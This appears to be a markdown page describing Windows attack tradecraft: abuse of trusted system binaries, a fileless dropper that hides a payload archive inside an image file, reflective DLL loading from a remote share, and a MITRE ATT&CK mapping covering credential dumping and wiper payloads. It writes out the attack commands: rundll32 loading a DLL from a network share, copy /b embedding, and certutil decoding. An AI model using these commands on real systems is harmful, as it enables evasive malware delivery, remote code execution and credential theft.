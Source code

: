 
## LOLBins Overview

**Living Off the Land Binaries (LOLBins)** are legitimate, trusted Windows binaries commonly abused by adversaries to bypass security controls and run malicious code filelessly.

**Example Use (Print Service Attack):**

```cmd
rundll32.exe \\10.10.X.X\shared\payload.dll,ReflectEntry
```

> Attackers use LOLBins like `rundll32.exe`, `regsvr32.exe`, and `powershell.exe` to execute payloads from network shares, often after identifying exposed printers or servers via reconnaissance.

---

## Fileless Dropper Embedding

**Goal:** Deliver payloads covertly by embedding archives within images and extracting them using native tools.

**Steps:**

1. **Embed Payload:**
   ```bash
   copy /b nsfw.jpg + payload.7z nsfw.jpg
   ```

2. **Extract & Decode:**
   ```cmd
   certutil -decode nsfw.jpg dropper.7z
   7z x dropper.7z -oC:\Users\Public\
   ```

> This method bypasses traditional file extension filtering and leverages built-in tools for evasive delivery.

---

## Reflective DLL Injection

**Technique:** Load and execute a malicious DLL directly in memory using reflective loading.

**Example:**
```cmd
rundll32.exe \\10.10.X.X\share\nsfw.dll,ReflectEntry
```

> This enables stealthy, in-memory execution without leaving artifacts on disk.

---

## MITRE ATT&CK Mapping

| Phase                | Technique                               | ID                   | Description                                              |
|----------------------|-----------------------------------------|----------------------|----------------------------------------------------------|
| Initial Access       | Valid Accounts / Drive-by Compromise    | T1078, T1189         | Compromising public-facing print interfaces              |
| Execution            | DLL Side-Loading / LOLBins              | T1218, T1055.001     | Running DLLs reflectively via trusted binaries           |
| Privilege Escalation | Print Spooler Exploits / Hive ACL Abuse | T1068, T1003.002     | SYSTEM-level access and SAM hash extraction              |
| Defense Evasion      | Fileless Execution / Obfuscated Files   | T1027, T1202         | Encoded payloads delivered via certutil, mshta, etc.     |
| Credential Access    | LSASS Dumping / SAM Hive Access         | T1003                | Credential dumping post HiveNightmare                    |
| Lateral Movement     | SMB/Net Share Enumeration               | T1021.002            | Spread via printer shares or spooler enumeration         |
| Impact               | Data Destruction / Encryption           | T1485, T1486         | Fileless wiperware triggered via DLL payloads            |
